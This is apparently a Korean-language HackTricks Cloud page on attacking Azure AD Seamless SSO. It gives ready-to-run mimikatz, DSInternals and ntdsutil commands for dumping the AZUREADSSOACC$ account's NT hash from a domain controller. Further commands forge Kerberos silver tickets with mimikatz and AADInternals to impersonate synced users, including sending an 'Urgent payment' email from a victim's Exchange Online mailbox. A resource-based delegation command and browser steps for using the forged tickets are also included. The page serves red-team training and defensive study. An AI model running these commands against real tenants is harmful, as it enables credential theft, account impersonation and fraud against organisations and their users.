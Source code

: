 # Az - Seamless SSO

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## 기본 정보

[문서에서 발췌:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso) Azure Active Directory Seamless Single Sign-On (Azure AD Seamless SSO)는 **기업 네트워크에 연결된 기업 장치에서 사용자를 자동으로 로그인**시킵니다. 활성화되면, **사용자는 Azure AD에 로그인할 때 비밀번호를 입력할 필요가 없으며**, 보통 사용자 이름도 입력할 필요가 없습니다. 이 기능은 추가적인 온프레미스 구성 요소 없이 클라우드 기반 애플리케이션에 쉽게 접근할 수 있도록 합니다.

<figure><img src="../../../../.gitbook/assets/image (275).png" alt=""><figcaption></figcaption></figure>

기본적으로 Azure AD Seamless SSO는 **온프레미스 도메인에 가입된 PC**에서 **사용자를 로그인**시킵니다.

이는 [**PHS (Password Hash Sync)**](phs-password-hash-sync.md)와 [**PTA (Pass-through Authentication)**](pta-pass-through-authentication.md) 모두에서 지원됩니다.

데스크탑 SSO는 인증을 위해 **Kerberos**를 사용합니다. 설정 시, Azure AD Connect는 온프레미스 AD에 **AZUREADSSOACC`$`라는 컴퓨터 계정을 생성**합니다. `AZUREADSSOACC$` 계정의 비밀번호는 설정 중에 **평문으로 Azure AD에 전송**됩니다.

**Kerberos 티켓**은 비밀번호의 **NTHash (MD4)**를 사용하여 **암호화**되며, Azure AD는 전송된 비밀번호를 사용하여 티켓을 복호화합니다.

**Azure AD**는 Kerberos **티켓**을 수락하는 **엔드포인트**(https://autologon.microsoftazuread-sso.com)를 노출합니다. 도메인에 가입된 기기의 브라우저는 SSO를 위해 이 엔드포인트로 티켓을 전달합니다.

### 온프레미스 -> 클라우드

사용자 **`AZUREADSSOACC$`의 비밀번호는 절대 변경되지 않습니다**. 따라서 도메인 관리자는 이 계정의 **해시를 탈취**하여 **어떤 온프레미스 사용자와도 동기화된** Azure에 연결하기 위해 **실버 티켓을 생성**할 수 있습니다.
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
이제 해시를 사용하여 **silver tickets 생성**할 수 있습니다:
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
은 티켓을 사용하려면 다음 단계를 실행해야 합니다:

1. **브라우저 시작:** Mozilla Firefox를 실행합니다.
2. **브라우저 구성:**
* **`about:config`**로 이동합니다.
* [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication)의 설정을 지정된 [값](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically)으로 설정합니다:
* `https://aadg.windows.net.nsatc.net`
* `https://autologon.microsoftazuread-sso.com`
3. **웹 애플리케이션 접근:**
* 조직의 AAD 도메인과 통합된 웹 애플리케이션을 방문합니다. 일반적인 예는 [Office 365](https://portal.office.com/)입니다.
4. **인증 과정:**
* 로그인 화면에서 사용자 이름을 입력하고 비밀번호 필드는 비워둡니다.
* 계속하려면 TAB 또는 ENTER를 누릅니다.

{% hint style="success" %}
이 방법은 MFA가 활성화된 경우 이를 우회하지 않습니다.
{% endhint %}

#### ~~클라우드 전용 사용자에 대한 Kerberos 티켓 생성~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Active Directory 관리자가 Azure AD Connect에 접근할 수 있다면, **클라우드 사용자에 대해 SID를 설정**할 수 있습니다. 이렇게 하면 Kerberos **티켓**을 **클라우드 전용 사용자**에 대해서도 **생성**할 수 있습니다. 유일한 요구 사항은 SID가 적절한 [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\))여야 한다는 것입니다.

{% hint style="danger" %}
클라우드 전용 관리자 사용자의 SID 변경은 이제 **Microsoft에 의해 차단**되었습니다.\
자세한 정보는 [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)을 참조하십시오.
{% endhint %}

### 온프레미스 -> 클라우드 리소스 기반 제한 위임 <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

이 계정이 있는 컨테이너 또는 OU에서 컴퓨터 계정(`AZUREADSSOACC$`)을 관리할 수 있는 사람은 **계정에 대해 리소스 기반 제한 위임을 구성하고 접근할 수 있습니다**.
```python
python rbdel.py -u <workgroup>\\<user> -p <pass> <ip> azureadssosvc$
```
## 참고 자료

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [TR19: I'm in your cloud, reading everyone's emails - hacking Azure AD via Active Directory](https://www.youtube.com/watch?v=JEIR5oGCwdg)

{% hint style="success" %}
AWS Hacking 배우기 및 연습하기:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking 배우기 및 연습하기: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 플랜**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**telegram 그룹**](https://t.me/peass)에 가입하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **PR을 제출하여** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github 저장소에 해킹 트릭을 공유하세요.**

</details>
{% endhint %}
